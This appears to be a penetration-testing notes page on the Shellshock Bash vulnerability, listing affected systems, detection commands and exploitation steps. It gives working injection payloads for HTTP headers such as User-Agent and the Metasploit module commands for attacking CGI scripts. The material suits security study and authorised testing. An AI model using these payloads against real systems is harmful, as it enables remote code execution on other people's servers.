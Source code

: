 **Shellshock**, also known as the **Bash Bug**, is a critical vulnerability in the Unix Bash shell. It allows attackers to execute arbitrary code by crafting specially formatted environment variables. The vulnerability stems from improper handling of function definitions within environment variables, enabling remote code execution on vulnerable systems. This flaw can be exploited on web servers running CGI scripts that invoke Bash, such as those using **Apache**, increasing the risk of compromise.

---

## Affected Systems
- Systems running **Bash versions 4.3** and earlier (unpatched).
- Commonly found on:
    - Linux distributions (e.g., **Debian**, **CentOS**, **Ubuntu**).
    - **MacOS** systems.
    - Network appliances, embedded devices, and web servers running CGI scripts that invoke Bash (e.g., Apache servers).

--- 

## Detection
- **Nmap NSE Script**:
```
nmap --script http-shellshock --script-args uri=/cgi-bin/vulnerable_script -p80 <target_ip>
```

- **Bash Command to Test for Vulnerability**:

```bash
env x='() { :;}; echo Vulnerable' bash -c "echo Test"
```

## Exploitation

#### Using a proxy
1. **Identify a vulnerable CGI script**:

- Detect a CGI script on the server that is executed via Bash. Typically, these scripts are found under `/cgi-bin/`.

2. **Intercept a request**:

- Send a request to the server, and when it hits the proxy, intercept the request.
- In the HTTP request, look for an environment variable (such as `User-Agent`, `Referer`, or `Cookie`) that could be manipulated.

3. **Modify the request to trigger Shellshock**:

- Modify the value of the chosen environment variable to include the malicious Bash function. For example, add the following payload:
```bash
() { :;}; echo; echo; /bin/bash -c "echo 'Test'" 
```

This payload triggers the vulnerability in the server's Bash environment.

Example of a modified `User-Agent` header:

```bash
User-Agent: () { :;}; echo; echo; /bin/bash -c "echo 'Test'" 
```


#### Using Metasploit
1. **Use the Shellshock exploit module**: Load the Apache Shellshock module to exploit the vulnerability in CGI scripts running on an Apache server.

```bash
use exploit/multi/http/apache_mod_cgi_bash_env
```

2. **Set the target host and port**: Specify the target's IP address and the port number (default is port 80 for HTTP).

```bash
set RHOSTS <target_ip>
set RPORT 80
```

3. **Execute the exploit**: Launch the exploit and attempt to gain control over the vulnerable system.

```bash
exploit
```